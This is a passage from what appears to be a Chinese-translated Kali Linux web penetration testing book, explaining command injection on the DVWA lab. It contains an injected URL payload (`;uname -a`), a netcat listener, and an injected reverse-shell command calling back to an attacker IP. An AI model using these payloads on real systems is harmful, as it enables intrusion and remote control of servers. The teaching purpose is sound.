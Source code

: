 正如您所看到的，在从用户接受`ip`参数之前，没有进行输入验证，这使得此代码容易受到命令注入攻击。要登录到 DVWA，使用的默认凭据是`admin`/`admin`。

恶意用户可以使用以下请求来注入附加命令，应用程序将接受而不引发异常：

```
http://server/page.php?ip=127.0.0.1;uname -a
```

应用程序从客户端接受用户输入的值而不进行验证，并将其连接到`ping -c 3`命令，以构建在 Web 服务器上运行的最终命令。服务器的响应显示在以下屏幕截图中。由于应用程序未能验证用户输入，显示了底层操作系统的版本以及对给定地址进行 ping 的结果：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00116.jpeg)

注入的附加命令将使用 Web 服务器的权限运行。现在大多数 Web 服务器都以受限权限运行，但即使权限有限，攻击者也可以利用并窃取重要信息。

命令注入可以用于通过注入`wget`命令使服务器下载和执行恶意文件，或者通过以下示例演示的方式获得对服务器的远程 shell。

首先，在 Kali Linux 中设置一个监听器。**Netcat**有一种非常简单的方法来做到这一点：

```
nc -lvp 12345  
```

Kali Linux 现在已设置为在端口`12345`上监听连接。接下来，将以下命令注入到受漏洞的服务器中：

```
nc.traditional -e /bin/bash 10.7.7.4 12345 
```

在一些现代 Linux 系统中，原始的 Netcat 已被替换为不包含某些可能存在安全风险的选项的版本，例如允许在连接时执行命令的`-e`选项。这些系统通常在名为`nc.traditional`的命令中包含传统版本的 Netcat。在尝试使用 Netcat 访问远程系统时，请尝试这两个选项。

请注意，`10.7.7.4`是示例中 Kali 机器的 IP 地址，`12345`是用于监听连接的 TCP 端口。发送请求后，您应该在 Kali Linux 中接收到连接，并能够在非交互式 shell 中发出命令：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00117.jpeg)

非交互式 shell 允许您执行命令并查看结果，但无法与命令进行交互，也无法查看错误输出，例如使用文本编辑器时。

# 识别注入数据的参数

当您测试 Web 应用程序的命令注入漏洞，并确认应用程序正在与底层操作系统的命令行交互时，下一步是操纵和探测应用程序中的不同参数，并查看它们的响应。应该测试以下参数是否存在命令注入漏洞，因为应用程序可能使用其中一个参数在 Web 服务器上构建命令：

+   **GET**：使用此方法，输入参数通过 URL 发送。在之前的示例中，客户端的输入使用`GET`方法传递给服务器，并且容易受到命令注入漏洞的攻击。应该测试使用`GET`方法请求发送的任何用户可控参数。

+   **POST**：在此方法中，输入参数通过 HTTP 正文发送。类似于使用`GET`方法传递的输入；从最终用户获取的数据也可以使用`POST`方法在 HTTP 请求的正文中传递。然后，Web 应用程序可以使用这些数据在服务器端构建命令查询。

+   **HTTP 头部**：应用程序通常使用头字段来识别最终用户，并根据头部的值向用户显示定制信息。这些参数也可以被应用程序用于构建进一步的查询。检查命令注入的一些重要头字段如下：

+   `Cookies`

+   `X-Forwarded-For`

+   `User-Agent`

+   `Referrer`
